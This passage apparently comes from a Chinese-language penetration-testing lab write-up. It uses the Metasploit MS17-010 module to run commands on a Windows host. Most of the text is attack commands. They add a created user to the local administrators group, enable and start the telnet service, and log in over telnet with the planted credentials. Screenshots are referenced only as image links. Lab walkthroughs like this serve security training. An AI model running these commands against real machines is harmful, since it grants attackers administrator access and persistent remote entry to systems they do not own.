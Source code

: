 执行成功

​![image](http://127.0.0.1:6806/assets/image-20231213214449-0mqi3l6.png)​

查看一下

​![image](http://127.0.0.1:6806/assets/image-20231213214552-evqj0xu.png)​

把添加的用户加入管理员组

```text
set COMMAND net localgroup administrators xxxgg /add
exploit
```

设置 `COMMAND`​ 参数为 `net localgroup administrators xxxgg /add`​，其中 `net localgroup administrators`​ 是 Windows 命令，用于执行本地组管理操作

​![image](http://127.0.0.1:6806/assets/image-20231213214743-t3y0xk9.png)​

查看

```text
set COMMAND net localgroup administrators
exploit
```

​![image](http://127.0.0.1:6806/assets/image-20231213215203-oszruf0.png)​

添加成功

### 利用ms17_010

通过ms17_010开启23端口与telnet服务

```text
set COMMAND sc config tlntsvr start= auto
```

​![image](http://127.0.0.1:6806/assets/image-20231214101502-wz2kwnl.png)​

```text
set COMMAND net start telnet
```

​![image](http://127.0.0.1:6806/assets/image-20231214101554-6fzul5f.png)查看端口是否开启

```text
set COMMAND netstat -an
```

​![image](http://127.0.0.1:6806/assets/image-20231214101659-epwxxut.png)​

进行telnet连接

```text
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.52.141
set USERNAME xxxgg
set PASSWORD Ab262524!
exploit
```
